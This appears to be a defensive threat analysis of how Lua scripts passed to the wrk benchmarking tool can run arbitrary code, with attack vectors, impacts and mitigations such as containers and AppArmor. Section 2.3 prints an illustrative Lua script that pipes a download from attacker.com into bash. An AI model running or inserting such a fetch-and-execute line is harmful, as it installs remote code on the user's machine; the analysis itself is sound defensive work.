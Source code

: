 # Deep Analysis of Malicious Lua Script Execution in `wrk`

## 1. Objective, Scope, and Methodology

### 1.1. Objective

The objective of this deep analysis is to thoroughly examine the "Malicious Lua Script Execution" attack surface in the context of `wrk`, a widely used HTTP benchmarking tool.  We aim to understand the precise mechanisms by which this attack can be carried out, the potential consequences, and the effectiveness of proposed mitigation strategies.  This analysis will inform best practices for secure `wrk` usage and guide developers in minimizing the risk associated with this attack vector.

### 1.2. Scope

This analysis focuses specifically on the `-s` option of `wrk`, which allows the execution of Lua scripts.  We will consider:

*   **Lua Script Functionality:**  How `wrk` integrates with Lua, the capabilities exposed to Lua scripts, and the limitations (if any) imposed by `wrk` itself.
*   **Attack Vectors:**  The various ways an attacker might deliver a malicious Lua script to a user running `wrk`.
*   **Impact Analysis:**  A detailed breakdown of the potential consequences of successful exploitation, including specific examples of malicious actions.
*   **Mitigation Effectiveness:**  An evaluation of the proposed mitigation strategies, identifying any weaknesses or limitations.
*   **Alternative Mitigations:** Exploration of additional mitigation techniques beyond those initially listed.

This analysis *does not* cover other potential attack surfaces of `wrk` (e.g., vulnerabilities in the HTTP parsing logic) unless they directly relate to the Lua scripting functionality.

### 1.3. Methodology

This analysis will employ the following methods:

*   **Code Review:** Examination of the relevant `wrk` source code (available on GitHub) to understand how Lua scripting is implemented and how scripts interact with the `wrk` environment.
*   **Experimentation:**  Creation and execution of both benign and malicious Lua scripts to observe their behavior and impact on the system.  This will be performed in a controlled, isolated environment.
*   **Literature Review:**  Consultation of relevant documentation for `wrk`, Lua, and security best practices.
*   **Threat Modeling:**  Identification of potential attack scenarios and the steps an attacker might take to exploit this vulnerability.
*   **Vulnerability Analysis:**  Assessment of the inherent risks associated with executing arbitrary code and how they manifest in the context of `wrk`.

## 2. Deep Analysis of the Attack Surface

### 2.1. Lua Script Functionality within `wrk`

`wrk` leverages the LuaJIT interpreter to execute Lua scripts provided via the `-s` option.  The Lua environment within `wrk` provides access to several key functions and objects, allowing scripts to:

*   **Modify Requests:**  Alter HTTP headers, body content, and request methods before sending requests to the target server.  This is the primary intended use case.
*   **Process Responses:**  Analyze response headers and bodies, extract data, and perform calculations.
*   **Control `wrk` Behavior:**  Influence the duration of the test, the number of connections, and other parameters (though with some limitations).
*   **Interact with the System (Limited):**  Crucially, LuaJIT, and therefore `wrk`'s Lua environment, *does not inherently sandbox* the Lua code.  This means Lua scripts have access to the same system resources as the `wrk` process itself.  This includes:
    *   **File System Access:**  Reading, writing, and deleting files.
    *   **Network Access:**  Creating network connections (beyond those managed by `wrk`).
    *   **Process Execution:**  Launching other processes on the system.
    *   **Environment Variable Access:** Reading and potentially modifying environment variables.

The `wrk` source code does not implement any specific restrictions on the Lua environment beyond what is provided by LuaJIT itself.  This is the core of the vulnerability.

### 2.2. Attack Vectors

An attacker can deliver a malicious Lua script through various means:

*   **Social Engineering:**  Tricking a user into downloading and running a script from an untrusted source (e.g., a phishing email, a malicious website, a compromised software repository).
*   **Supply Chain Attack:**  Compromising a legitimate software distribution channel to inject a malicious script into a seemingly benign package.
*   **Man-in-the-Middle (MITM) Attack:**  Intercepting a legitimate script download and replacing it with a malicious one (less likely, but possible if the script is downloaded over HTTP).
*   **Compromised Development Environment:** If an attacker gains access to a developer's machine, they could inject malicious code into a script that is later used with `wrk`.

### 2.3. Impact Analysis

The impact of a successful malicious Lua script execution is severe and can include:

*   **Data Exfiltration:**  The script can read sensitive files (e.g., configuration files, SSH keys, database credentials) and send them to an attacker-controlled server.
*   **Malware Installation:**  The script can download and execute arbitrary malware, including ransomware, keyloggers, or backdoors.
*   **System Modification:**  The script can alter system configurations, disable security software, or create new user accounts.
*   **Lateral Movement:**  The script can use the compromised machine as a launching point to attack other systems on the network.
*   **Denial of Service (DoS):** While `wrk` is a benchmarking tool, a malicious script could be used to launch a DoS attack against a target, although this is not the primary concern.
* **Cryptocurrency Mining:** The script could install and run cryptocurrency mining software, consuming system resources.
* **Data Destruction:** The script could delete or encrypt files on the system.

**Example Malicious Script (Illustrative):**

```lua
-- malicious.lua
local handle = io.popen("curl -s http://attacker.com/malware | bash")
handle:close()
```

This simple script uses `io.popen` (available in the standard Lua library) to download and execute a shell script from an attacker-controlled server.  This shell script could then perform any of the malicious actions listed above.

### 2.4. Mitigation Effectiveness

Let's analyze the effectiveness of the initially proposed mitigation strategies:

*   **Never Run Untrusted Scripts:** This is the *most effective* mitigation.  If followed strictly, it eliminates the risk entirely.  However, it relies on user vigilance and the ability to accurately identify trusted sources.
*   **Code Review:**  Thorough code review is crucial, but it's not foolproof.  Complex or obfuscated malicious code can be difficult to detect, even for experienced reviewers.  Furthermore, it requires expertise in Lua and security.
*   **Sandboxing (Container, VM):**  This is a *highly effective* mitigation.  By running `wrk` in a container or VM, the impact of a compromised script is limited to the isolated environment.  However, there might be a slight performance overhead, and the sandbox itself needs to be properly configured and secured.  Escaping a well-configured container or VM is significantly more difficult than escaping the `wrk` process.
*   **Principle of Least Privilege:**  Running `wrk` as a non-privileged user is a good security practice, but it's *not a complete solution*.  A malicious script running as a non-privileged user can still access and potentially damage user-owned files and data.  It reduces the impact, but doesn't eliminate it.

### 2.5. Alternative Mitigations

Beyond the initial suggestions, consider these additional mitigation strategies:

*   **Lua Sandboxing Libraries:** Explore using Lua sandboxing libraries *within* the Lua script itself.  These libraries (e.g., `luasandbox`) can restrict the capabilities of the Lua environment, limiting access to system resources.  However, these libraries might have their own vulnerabilities or limitations, and they add complexity to the script.  They also require modification of the `wrk` source code to integrate properly.
*   **Static Analysis Tools:**  Employ static analysis tools designed for Lua to automatically scan scripts for potentially malicious patterns or code.  This can help identify suspicious code before execution.
*   **AppArmor/SELinux:**  Use mandatory access control (MAC) systems like AppArmor (Ubuntu) or SELinux (Red Hat/CentOS) to confine the `wrk` process and limit its access to system resources.  This provides a system-level layer of defense, even if the Lua script attempts to perform malicious actions.  This requires careful configuration to avoid breaking `wrk`'s legitimate functionality.
*   **Network Monitoring:**  Monitor network traffic generated by `wrk` to detect any suspicious connections or data exfiltration attempts.  This can help identify a compromised script in action.
* **Disable Lua Scripting:** If Lua scripting is not required for a particular use case, consider modifying the `wrk` source code to completely disable the `-s` option. This eliminates the attack surface entirely. This is the most drastic, but also the most secure option if scripting is not needed.

## 3. Conclusion

The "Malicious Lua Script Execution" attack surface in `wrk` presents a significant security risk due to the unrestricted access Lua scripts have to the system running `wrk`.  The most effective mitigation strategies are to never run untrusted scripts and to run `wrk` within a sandboxed environment.  Code review, the principle of least privilege, and additional techniques like Lua sandboxing libraries, static analysis, and MAC systems can provide further layers of defense.  Ultimately, a combination of these strategies, tailored to the specific use case and risk tolerance, is recommended to minimize the risk of this attack. Developers using `wrk` should be acutely aware of this vulnerability and prioritize secure usage practices.